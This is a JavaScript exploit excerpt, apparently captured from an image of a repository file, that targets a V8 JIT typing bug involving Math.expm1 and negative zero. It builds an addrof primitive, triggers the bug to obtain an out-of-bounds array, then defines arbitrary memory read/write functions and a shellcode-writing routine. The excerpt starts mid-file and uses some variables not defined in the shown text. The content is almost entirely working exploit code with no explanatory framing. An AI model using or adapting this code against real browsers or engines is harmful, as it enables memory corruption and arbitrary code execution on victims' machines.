 ```js
}
Number.prototype.f2i = function() {
  float_view[0] = this;
  return int_view[0];
}
Number.prototype.f2smi = function() {
  float_view[0] = this;
  return int_view[0] >> 32n;
}
Number.prototype.i2f = function() {
  return BigInt(this).i2f();
}
Number.prototype.smi2f = function() {
  return BigInt(this).smi2f();
}

// ----------------------------------------------- Starting the exploit ----------------------------------------------- //

let oob_rw_buffer = undefined;
let aux_arr = undefined;

function addrof(obj){
    aux_arr[0] = obj;
    return oob_rw_buffer[0x12];
}

function stage1(x, i=1){
    let a = [1.1, 2.2, 3.3];
    let b = [5.5, 5.5, 5.5, 5.5, 5.5];
    let c = [{}, 1, 2];
    let o = {m: -0};
    let t = Object.is(Math.expm1(x), o.m) + 0; // trigger the bug.
    t *= (i+0); // i to inegral.
    a[t] = 1024*1024;
    oob_rw_buffer = b; // expose b to global scope
    aux_arr = c;
    return 0;
  }

stage1(0);
for(let i=0;i<100000;i++){
    stage1("0");
}
stage1(-0, 13); // get the OOB array.
console.log("[+] Stage 1: Obtained a OOB array");

// Stage 2
function arb_write(addr, val){
  oob_rw_buffer[diff/8n] = addr.i2f();
  dv.setUint32(0, val, true);
}

function arb_read(addr){
  oob_rw_buffer[diff/8n] = addr.i2f();
  return dv.getBigUint64(0, true);
}

function shell_write(addr, shellcode){
  for(let i=0;i<shellcode.length;i++){
    arb_write(addr+BigInt(4*i), shellcode[i]);
  }
}
```